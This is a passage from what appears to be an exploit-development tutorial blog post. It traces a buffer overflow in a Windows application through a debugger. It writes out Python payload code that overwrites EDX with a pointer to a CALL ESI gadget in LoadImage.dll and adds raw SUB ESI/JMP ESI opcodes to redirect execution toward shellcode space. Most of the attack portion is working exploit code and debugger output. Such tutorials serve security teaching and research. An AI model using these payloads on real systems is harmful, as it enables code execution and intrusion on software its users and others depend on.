 That meant EDX needed to be set to 0x019F6940, since 0x019F6940 + 28 = 0x019F6968. The payload was updated to reflect this: 

```python
payload =  "A"*80
payload += struct.pack("<I", 0x019F6940)
payload += "C"*108
payload += struct.pack("<I", 0x10023701)
payload += "C"*196
```

I executed PoC again and hit F9 until the payload was received. EDX had now been set to 0x019F6940 and the CALL instruction showed that it was pointing to 0x10023701, an address in LoadImage.dll. I hit F7 to step into the function and it took me to the CALL ESI instruction as expected. 

ESI was pointing to 0x019F68E8, which was 64 bytes into the payload: 

![](/images/2014-05-14/17.png)

There were only 16 bytes to work with here, but there was plenty of space in the buffer of "C"s starting at 0x019F68FC. 

Since I had put the address of CALL ESI in 0x019F6968, I wanted to store my shellcode past that address. That was too far from my current location, so a short jump wouldn't work.

Fortunately, I could reuse ESI again by adding a value to it, and then doing a JMP ESI to jump to that new location. Adding 90 bytes to ESI was sufficient to sail over 0x019F6968: 

```python
payload =  "A"*64                            # padding
payload += "\x81\xee\x70\xff\xff\xff"        # SUB ESI,-90
payload += "\xff\xe6"                        # JMP ESI
payload += "A"*8                             # padding
payload += struct.pack("<I", 0x019F6940)     # overwrite EDX with pointer to CALL ESI
payload += "C"*108                           # padding
payload += struct.pack("<I", 0x10023701)     # pointer to CALL ESI
```

I ran the PoC once again, and stepped through the instructions. Everything worked as before, and after CALL ESI was executed, the execution went to the SUB ESI,-90 and JMP ESI instructions: 

![](/images/2014-05-14/18.png)
